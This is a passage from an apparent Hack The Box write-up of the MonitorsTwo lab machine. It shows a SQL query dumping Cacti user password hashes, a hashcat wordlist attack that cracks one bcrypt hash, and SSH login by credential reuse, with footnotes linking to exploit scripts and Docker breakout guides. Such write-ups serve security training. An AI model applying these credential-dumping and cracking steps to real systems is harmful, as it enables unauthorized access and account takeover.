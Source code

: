 ```bash
MySQL [cacti]> select username,password,full_name,email_address from user_auth;
+----------+--------------------------------------------------------------+----------------+------------------------+
| username | password                                                     | full_name      | email_address          |
+----------+--------------------------------------------------------------+----------------+------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC | Jamie Thompson | admin@monitorstwo.htb  |
| guest    | 43e9a4ab75570f5b                                             | Guest Account  |                        |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C | Marcus Brune   | marcus@monitorstwo.htb |
+----------+--------------------------------------------------------------+----------------+------------------------+
```

Extracting out those password hashes excluding the guest hash and running hashcat in mode 3200 (bcrypt[^hashcat]).

```bash
$hashcat -a 0 -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt 
--- SNIP ---
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
--- SNIP ---
```

I quit after a while as the hash for admin was taking too long. The password cracked is for the username marcus. Maybe there is credential reuse and we can SSH as marcus.

```bash
$ssh marcus@10.129.228.231
The authenticity of host '10.129.228.231 (10.129.228.231)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.231' (ECDSA) to the list of known hosts.
marcus@10.129.228.231's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 14 Jan 2024 05:47:01 PM UTC

  System load:                      0.44
  Usage of /:                       63.0% of 6.73GB
  Memory usage:                     17%
  Swap usage:                       0%
  Processes:                        236
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.228.231
  IPv6 address for eth0:            dead:beef::250:56ff:feb0:b550


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```

[^htb-link]: <https://app.hackthebox.com/machines/539>
[^cve]: <https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit>
[^cve-2022-46169]: <https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^docker-breakout]: <https://juggernaut-sec.com/docker-breakout-lpe/#Confirming_we_are_in_a_Docker_Container>
[^hashcat]: <https://hashcat.net/wiki/doku.php?id=example_hashes>
[^cve-2021-41091]: <https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/capsh/>